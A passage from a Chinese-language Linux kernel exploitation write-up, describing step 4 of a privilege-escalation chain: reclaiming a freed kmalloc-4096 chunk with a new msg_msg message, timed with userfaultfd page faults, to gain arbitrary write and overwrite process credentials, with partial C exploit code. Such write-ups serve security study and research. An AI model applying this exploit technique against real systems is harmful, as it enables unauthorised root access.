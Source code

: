 #### 4.4 步骤4——任意写，篡改cred

**思路**：现在 **QID #2**中的`msg_msg->next`指向一个空闲的`kmalloc-4096` （上一步利用任意释放原语所释放）。现在分配新消息占据该`kmalloc-4096`，即可通过**QID #2**篡改新消息的`msg_msg->next`实现任意写。

```c
[...]

void *allocate_msg2(void *_)
{
    printf("[Thread 2] Message buffer allocated at 0x%lx\n", page_2 + PAGE_SIZE - 0x10);

    if ((qid[3] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) // [2] 创建队列 QID #3
    {
        perror("msgget");
        exit(1);
    }

    memset(page_2, 0, PAGE_SIZE);
    ((unsigned long *)(page_2))[0xff0 / 8] = 1;

    if (msgsnd(qid[3], page_2 + PAGE_SIZE - 0x10, 0x1028 - 0x30, 0) < 0) // [3] 分配0x1028字节的消息（0x30头 + 0xff8数据），内核中会分配1个 `0x30+0xfd0` 的消息块（和之前任意释放的segment位于同一块）和1个`0x8+0x28`字节的segment（位于`kmalloc-64`）。
    {
        puts("msgsend failed!");
        perror("msgsnd");
        exit(1);
    }

    puts("[Thread 2] Message sent, target overwritten!");
}

[...]

pthread_create(&tid[3], NULL, allocate_msg2, NULL); 	// [1] 创建子线程执行allocate_msg2()

[...]
```

- `[2]`：创建队列 **QID #3**。

- `[3]`：调用`msgsend()` 分配0x1028字节的消息（0x30头 + 0xff8数据），内核中会分配1个 `0x30+0xfd0` 的消息块（和之前任意释放的segment位于同一块）和1个`0x8+0x28`字节的segment（位于`kmalloc-64`）。

- 用户传入数据位于`page_2 + PAGE_SIZE - 0x10`，使用 [userfaultfd](https://www.kernel.org/doc/html/latest/admin-guide/mm/userfaultfd.html) 来监视 `page_2 + PAGE_SIZE` 位置，等待页错误，**第2个页错误**。触发页错误时，堆布局如下：
